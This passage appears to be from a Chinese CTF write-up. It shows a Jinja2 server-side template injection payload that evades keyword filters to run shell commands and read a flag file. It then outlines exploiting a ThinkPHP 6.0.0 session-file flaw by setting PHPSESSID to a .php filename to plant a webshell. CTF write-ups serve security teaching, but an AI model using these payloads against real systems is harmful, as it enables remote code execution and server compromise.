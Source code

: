 [![](https://s2.ax1x.com/2020/02/23/33AI3D.png)](https://s2.ax1x.com/2020/02/23/33AI3D.png)

发现有回显，然后就试构造payload:执行命令了。。

这里面也有一些过滤，当输入的存在非法字符时，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/23/33EHRU.png)

得到payload:``{``{``{``}`.__class__.__base__.__subclasses__()[103].__init__.__globals__['__builtins__']['ev'+'al']("__imp"+"ort_"+"_('o"+"s').po"+"pen('ls').read()")`}``}``

能够执行命令：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/23/33Az8S.png)

读`flag`文件: ``{``{``{``}`.__class__.__base__.__subclasses__()[103].__init__.__globals__['__builtins__']['ev'+'al']("__imp"+"ort_"+"_('o"+"s').po"+"pen('cat this_is_the_fl'+'ag.txt').read()")`}``}``

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/23/33Vomd.png)

### <a class="reference-link" name="easy_thinking"></a>easy_thinking

打开题目：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/23/33np0H.png)

发现存在源码`www.zip`，通过测试发现：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s2.ax1x.com/2020/02/23/33utRP.png)

是个`thinkphp6.0.0`这个版本前一段刚爆出来了一个漏洞[参考链接](https://paper.seebug.org/1114/)，探测一波。

我们正常的注册，登陆，发现页面存在查找功能，但是什么也查不到。。。

在`http://123.57.212.112:7892/runtime/session/`这个目录下，我们找到了存放`session`的文件。

[![](https://s2.ax1x.com/2020/02/23/33KVeg.png)](https://s2.ax1x.com/2020/02/23/33KVeg.png)

打开对应的文件，发现里面存储的时我们刚刚查找的内容。

于是我们可以上传一个木马文件。

在我们登陆时，修改一下`PHPSESSID`的值，改成`102cf8246d140a73584c0e6c02b8.php`，登陆成功之后就会在`http://123.57.212.112:7892/runtime/session/`这个目录下，找到这个文件，然后就是写马进去。

[![](https://s2.ax1x.com/2020/02/23/33K2tA.png)](https://s2.ax1x.com/2020/02/23/33K2tA.png)

访问这个文件，发现成功写入木马：

[![](https://s2.ax1x.com/2020/02/23/33K77Q.png)](https://s2.ax1x.com/2020/02/23/33K77Q.png)
